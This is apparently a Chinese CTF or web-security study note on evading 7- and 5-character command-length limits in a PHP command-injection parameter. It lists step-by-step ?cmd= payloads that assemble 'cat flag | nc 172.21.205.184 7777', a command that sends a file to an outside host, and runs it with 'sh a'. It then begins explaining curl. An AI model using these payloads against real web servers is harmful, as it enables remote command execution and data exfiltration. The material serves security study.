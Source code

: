 

## 长度限制为7的限制绕过

期望命令:

`cat flag | nc 172.21.205.184 7777`

`?cmd=>7777`

`?cmd=>84\ \\`

`?cmd=>5.1\\`

`?cmd=>1.20\\`

`?cmd=>72.2\\`

`?cmd=>\ 1\\`

`?cmd=>\ nc\\`

`?cmd=>\ \|\\`

`?cmd=>flag\\`

`?cmd=>\ \\`

`?cmd=>cat\\`

效果:

```
ls -t                                             
'cat\'  ' \'  'flag\'  ' |\'  ' nc\'  ' 1\'  '72.2\'  '1.20\'  '5.1\'  '84 \'  '7777'   flag   index.php 
```

再将文件名按顺序写入到文件a中

`?cmd=ls -t>a`

再执行文件a,相当于运行了`cat flag`

`?cmd=sh a`            #`./a`貌似不太好用,可能要改权限啥的

**可以使用脚本`7长度POC.py`**

发现一个问题:当输入`'>.20\\'`时,会生成不理想的文件,`.`应该放在数字中间,确保脚本正常运行

## 长度限制为5的限制过滤绕过

### curl命令

基本用法:

`curl URL`

`curl http://www.baidu.com `

执行后，`http://www.baidu.com` 的html就会显示在屏幕上了
